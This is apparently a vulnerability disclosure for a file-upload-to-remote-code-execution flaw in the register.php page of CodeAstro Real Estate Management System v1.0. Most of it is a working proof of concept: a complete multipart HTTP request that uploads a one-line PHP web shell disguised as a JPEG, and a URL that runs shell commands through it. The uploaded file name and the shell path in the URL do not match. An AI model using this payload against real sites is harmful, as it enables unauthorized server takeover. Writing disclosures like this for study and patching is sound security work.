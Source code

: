 # Unauthorized File Upload to RCE in CodeAstro Real Estate Management System v1.0 of file /register.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- /register.php

**Version**

- V1.0

### POC 

register.php  File Upload RCE

```http
POST /register.php HTTP/1.1
Host: www.realestate1.top
Cookie: PHPSESSID=29il4v1ositshrfe7un295114t
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="name"

testuser1
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="email"

test@example.com
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="phone"

1234567890
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="pass"

password123
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="utype"

user
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="uimage"; filename="shell555.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="reg"

Register
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```



![image-20250817162654406](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508171626515.png)

```
http://www.realestate1.top/admin/user/shell.php?cmd=ls
```

![image-20250817162723595](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508171627721.png)